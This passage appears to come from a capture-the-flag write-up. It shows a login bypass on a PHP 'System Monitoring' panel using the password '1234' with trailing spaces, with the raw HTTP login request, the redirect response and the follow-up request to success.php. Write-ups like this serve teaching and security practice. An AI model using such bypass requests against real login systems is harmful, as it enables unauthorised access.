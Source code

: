 4yn found that using a password of `1234  ` worked and managed to gain access to a control panel.
This could have worked possibly because the password was trimmed.

On a successful login, we were redirected to `success.php`.

```
POST /index.php HTTP/1.1
Host: 176.32.76.86
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://176.32.76.86
Connection: close
Referer: http://176.32.76.86/index.php
Cookie: PHPSESSID=68f86c7463ae9b46df5f8b587bef3da4
Upgrade-Insecure-Requests: 1

username=user1&password=1234++
```

Response received:

```
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.21.4
Date: Fri, 26 Nov 2021 06:14:44 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/5.6.40
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: PHPSESSID=a194e66cf00ee816ce7d68fd431b13ce; path=/
Location: success.php
Content-Length: 0


```

On this `success.php` page, we were granted access to a 'System Monitoring' site that had a link to
an `apidoc.php` link and some Javascript that calls `http://176.32.76.86:5000`.

```
GET /success.php HTTP/1.1
Host: 176.32.76.86
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://176.32.76.86/index.php
Connection: close
Cookie: PHPSESSID=a194e66cf00ee816ce7d68fd431b13ce
Upgrade-Insecure-Requests: 1


```
